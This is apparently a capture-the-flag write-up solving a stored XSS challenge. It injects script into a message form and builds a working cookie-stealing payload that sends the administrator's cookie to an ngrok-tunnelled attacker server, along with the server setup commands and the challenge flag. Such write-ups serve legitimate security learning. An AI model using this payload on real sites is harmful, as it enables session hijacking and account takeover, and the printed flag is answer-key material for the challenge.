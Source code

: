 # XSS - Stored 1

**Point**: 30 points

**Description**: So easy to sploit

## Solution:

There's a form for submitting "title" and "message".

<p align="center"><img width="450px" height="300px" src="https://user-images.githubusercontent.com/48288606/158942903-a138857c-579f-4711-aa2d-f94a17d05106.png"/></p>

Let's check whether XSS is possible. Inject respectively with `<script>alert(1)</script?` and `hacking` (optional)

Nothing was happened. Reversing our input, maybe XSS occurs in second input: `hacking` for title and `<script>alert(1)</script?` for message.

<p align="center"> <img width="400px" height="150px" src="https://user-images.githubusercontent.com/48288606/158943445-969975ce-0c9d-474c-a44c-c398dc3800a6.png"> </p>

Now this proves XSS can be in action. Now we have get the **cookie** from the victim, in this challenge victim is **administrator**. We can handle that with `document.cookie`. But the point is how we can get it; as usual payload we use `alert`, `console.log`, ... it won't work when these actions take place in client side and we would only see our cookie on the screen. 

We have to delivery all collected cookie from victim (administrator) to a specific server that we take control. To do that, we can think of a tag like `<img/>` to contain our server link in `src` attribute and when the victim **GET** an image from our source, we can see the full path **URL Request** and inject cookie to that URL, also find a way to "call" that image. Payload will look like this:

```javascript
<script> document.write("<img src='{your_server_link_site}?cookie=" + document.cookie + "' />") </script>
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   <p align="center"><img src="https://user-images.githubusercontent.com/48288606/158958343-5d03bfd3-686b-437b-8d3d-97bda34cedc1.png" /></p>

3. Send our payload: `hacking` in **title** and 
```javascript
<script> document.write("<img src='http://85ae-123-21-33-87.ngrok.io?cookie=" + document.cookie + "' />") </script>
``` 
in **message**

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158959186-eb82cb0f-93ad-4324-953f-3e43d4e86bf1.png" /> </p>

The cookie create by **administrator** shown up in the request.

FLag: **NkI9qe4cdLIO2P7MIsWS8ofD6**

